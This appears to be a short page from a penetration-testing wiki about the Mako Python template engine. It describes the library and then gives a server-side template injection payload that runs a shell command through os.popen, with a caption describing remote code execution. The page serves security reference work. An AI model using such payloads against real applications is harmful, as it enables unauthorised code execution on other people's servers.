 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mako

[Mako](https://www.makotemplates.org/) is a Python template library that compiles into Python modules for high performance. It uses a non-XML syntax inspired by Django, Jinja2, Cheetah, and others. Mako functions as an embedded Python language, offering a simple, flexible model with strong support for Python's calling and scoping semantics.

## SSTI

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

<figure><img src="../../../.gitbook/assets/glau_ssti_id.png" alt=""><figcaption><p>Figure 1: Achieving RCE through a SSTI flaw on a Mako templating engine.</p></figcaption></figure>
